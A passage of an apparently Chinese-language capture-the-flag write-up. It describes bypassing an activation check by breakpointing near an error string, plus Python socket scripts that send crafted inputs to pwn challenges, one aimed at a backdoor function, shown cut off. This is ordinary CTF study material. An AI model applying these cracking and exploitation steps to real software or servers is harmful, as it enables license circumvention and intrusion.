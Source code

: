 ### 0x05 Activate

UTF16编码：

`激活码无效` -> `C0 6F 3B 6D 01 78 E0 65 48 65`

找到激活码无效这一字符串前面的分支, 下个断点

走红线 “激活完成”

Pwn
---

### 0x01 Chekin

这其实算密码学题目吧....   

```python
#!/usr/bin/env python3
import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("your ip address",9990))

payload = b'2'+b'\n'
sock.sendall(payload)
payload = b'10'+b'\n'
sock.sendall(payload)
payload = b'3544388184383369539\n'
sock.sendall(payload)
print(sock.recv(100))

payload = b'2'+b'\n'
sock.sendall(payload)
payload = b'11'+b'\n'
sock.sendall(payload)
payload = b'56\n'
sock.sendall(payload)
print(sock.recv(100))

payload = b'0'+b'\n'
sock.sendall(payload)
print(sock.recv(100))
print(sock.recv(100))
print(sock.recv(100))
```

### 0x02 Windows

主要是调用 `00402360` 处的后门

```python
#!/usr/bin/env python3

import socket  
import time

      
def pwn():  
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    s.connect(("your ip address",9990))  
    time.sleep(0.5)
    print(s.recv(1024))
    # 选择写入内容
    payload = b'1'
    # 向服务器发送数据  
    s.sendall((payload + b'\n'))
```